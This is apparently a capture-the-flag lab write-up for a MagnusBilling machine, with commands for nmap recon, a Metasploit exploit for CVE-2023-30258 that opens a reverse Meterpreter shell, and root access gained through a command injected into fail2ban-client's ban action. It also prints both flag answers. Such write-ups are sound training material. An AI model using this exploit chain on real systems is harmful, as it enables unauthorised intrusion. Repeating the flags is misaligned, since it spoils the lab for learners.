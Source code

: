 Some mistakes can be costly.

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.


# Step first - Recon

> nmap -sC -sV -A -p- 10.10.110.69

![Lab Screenshot](001.png)

We find Port 5038 - Asterisk Call Manager 2.10.6 

I did some research on MagnusBilling and found the vulnerability CVE-2023-30258

![Lab Screenshot](002.png)

# Step 2. Time to fire up the Metasploit

msfconsole

> use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

Let's see the requirements

![Lab Screenshot](003.png)

Set the following:

> set RHOSTS 10.10.110.69

> set LHOST 10.10.7.140

> run

![Lab Screenshot](004.png)

A few moments later, we got a Meterpreter shell

type the following:

> shell

Then spawn a TTY shell:

> python3 -c 'import pty; pty.spawn("/bin/bash")'

> ls

![Lab Screenshot](005.png)


# Step 3. - Let's find those flags

type "cd .." until we find the /home/magnus

> cd /home/magnus
> cat user.txt

![Lab Screenshot](006.png)


# Step 4. - Privilege Escalation

Let’s see what we can do with sudo

> sudo -l

We can abuse fail2ban-client to execute commands as root using ban actions

> sudo /usr/bin/fail2ban-client restart

Inject a command to steal root.txt

> sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"

Trigger the ban:

> sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

Then:

> cat /tmp/root.txt

![Lab Screenshot](010.png)

<details><summary>What is user.txt?</summary>

![Lab Screenshot](007.png)

THM{4a6831d5f124b25eefb1e92e0f0da4ca}</details>

<details><summary>What is root.txt?</summary>

![Lab Screenshot](009.png)

THM{33ad5b530e71a172648f424ec23fae60}</details>